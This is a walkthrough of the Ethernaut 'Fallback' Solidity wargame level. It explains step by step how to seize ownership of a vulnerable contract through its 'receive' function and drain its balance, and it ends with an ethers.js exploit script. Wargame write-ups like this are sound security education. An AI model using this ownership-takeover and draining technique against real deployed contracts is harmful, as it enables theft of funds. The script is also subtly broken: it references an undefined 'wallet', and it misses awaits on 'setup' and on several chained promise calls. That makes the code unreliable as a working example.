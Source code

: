 ```yaml
---
description: >-
  In Ethernaut's Fallback, we get some practice walking through Solidity
  contract logic and are introduced to the concept of "fallback" functions.
---
```


# 1 - Fallback

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) is to claim ownership of the `Fallback` contract and reduce its balance to zero.

### Hints

<details>

<summary>Hint One</summary>

Before we can withdraw funds, we must first become the contract's `owner`. Where in the code is the owner variable first assigned? Where is it reassigned? When it is reassigned, what conditions need to be met that would result in `msg.sender` becoming the `owner`? Could we construct a series of transactions to meet these conditions?

</details>

<details>

<summary>Hint Two</summary>

We can become the contract `owner` by triggering its `receive` function after making an initial transaction via the `contribute` function to satisfy the second part of its `require(msg.value > 0 && contributions[msg.sender] > 0);` condition. The `receive` function is a special "fallback" function in Solidity. How is it triggered?

</details>

### Full Walkthrough

#### Claiming Ownership

The contract's `owner` is set by its constructor to the address from which it was deployed. There are only two sections of the code in which the owner may be reassigned. The first, within the `contribute` function, is a dead end. This is because it requires the sender's contributions to be greater than the owner's, while the constructor has already set the owner's contribution to 1,000 ether (line 13: `contributions[msg.sender] = 1000 * (1 ether);`) and the `contribute` function limits each of the player's contributions to < 0.001 ether.

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The second section of the code in which the contract owner may be reassigned is found within the `receive` ("Receive Ether") function.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive` function checks first that the value of the transaction is non-zero, and that the contributions of the sender address are non-zero, before reassigning the `owner` to `msg.sender`. This means we may pass this `require` condition by first sending a small transaction via the `contribute` function (< 0.001 ether), then by sending a second transaction of any non-zero value to the contract address with empty calldata to trigger its `receive` function.

{% hint style="info" %}
**Fallback Functions**

Solidity (version 0.6.x+) contracts may contain two special "fallback" functions, `receive` and `fallback`:

* **receive** is triggered when a contract receives a transaction with empty calldata.
* **fallback** is triggered when no other function (not even `receive`) matches.
{% endhint %}

#### Reducing Balance to Zero

Once the owner address is set to the player's address, we may call the `withdraw` function directly as the `require` condition of the `onlyOwner` modifier has now been satisfied.

```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await wallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    provider,
    playerWallet,
    playerWalletSigner,
    contract: fallbackContract,
  } = setup('Fallback')

  // Contribute 0.0001 ether via Fallback contract's 'contribute' function
  const contributionValue = ethers.utils.parseEther('0.0001')
  console.log(
    `Sending Fallback 'contribute' ${contributionValue.toString()}...`
  )
  await fallbackContract
    .contribute({
      value: contributionValue,
    })
    .wait(1)

  // Confirm contribution via Fallback contract's 'getContribution' function
  console.log(
    `Current contribution: ${await fallbackContract
      .getContribution()
      .toString()}`
  )

  // Send ether to Fallback contract address ('receive' function)
  console.log(
    `Sending ${contributionValue.toString()} to Fallback contract address...`
  )
  await playerWalletSigner
    .sendTransaction({
      to: process.env.CONTRACT_ADDRESS,
      value: contributionValue,
      gasPrice: 20000000000,
    })
    .wait(1)

  // Check current Fallback contract 'owner'
  const fallbackContractOwner = await fallbackContract.owner()
  console.log(`Fallback contract 'owner' is now: ${fallbackContractOwner}`)

  if (fallbackContractOwner === playerWallet.address) {
    console.log('Player is contract owner.')

    // Withdraw funds via Fallback contract's 'withdraw' function
    console.log('Withdrawing contract balance...')
    await fallbackContract.withdraw().wait(1)

    // Check new Fallback contract balance
    const contractBalance = await provider.getBalance(
      process.env.CONTRACT_ADDRESS
    )
    console.log(`Contract balance is now: ${contractBalance.toString()}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Solidity contains two special **fallback functions**. One of which, **receive**, is triggered when a contract receives a transaction with empty calldata.
